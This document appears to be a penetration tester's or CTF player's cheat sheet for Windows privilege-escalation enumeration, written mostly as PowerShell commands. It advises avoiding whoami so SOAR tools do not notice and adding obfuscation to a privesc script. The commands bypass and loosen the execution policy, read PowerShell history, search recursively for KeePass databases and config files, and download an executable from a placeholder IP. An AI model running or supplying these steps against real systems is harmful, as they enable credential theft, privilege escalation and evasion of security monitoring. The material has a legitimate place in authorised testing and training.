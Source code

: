 # Basics

DO NOT RUN `whoami`!!! Some SOARs may detect it and start tracking u!

## Automated enum

https://github.com/itm4n/PrivescCheck/

The script there is obfuscated but additional levels of obfuscation are welcome.

1. `powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Audit -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,HTML,CSV,XML"`
2. Run manual commands if needed 
3. If windows version is old then try potatoes if privileges are there

### Manual enum

```powershell

# see script exec policy

Get-ExecutionPolicy -Scope CurrentUser

# set to unrestricted

Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser

# see user's history
Get-History

# check PSReadline history
$psReadlineOptions = Get-PSReadlineOption; $historySavePath = $psReadlineOptions.HistorySavePath; if (Test-Path $historySavePath) { Get-Content $historySavePath } else { Write-Host "PS History File does not exist" }

# check event, for blocked scripts for example

Get-WinEvent -FilterHashtable @{logname='Microsoft-Windows-PowerShell/Operational'; ID=4104} | Where-Object { $_.Message -like '*script block*' } | Format-List

# get into temp dir which is typically writable
cd $env:temp

systeminfo

Get-ComputerInfo

# search for interesting files

Get-ChildItem -Path .\ -Include  *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.kdbx,*.ini -File -Recurse -ErrorAction SilentlyContinue

# in cmd 
dir /s /b flag.txt

# see also hidden files
Get-ChildItem . -Force

# download stuff if needed
iwr -uri http://IP -outfile some.exe

# test locally connections
Test-NetConnection -Port 445 192.168.50.111
```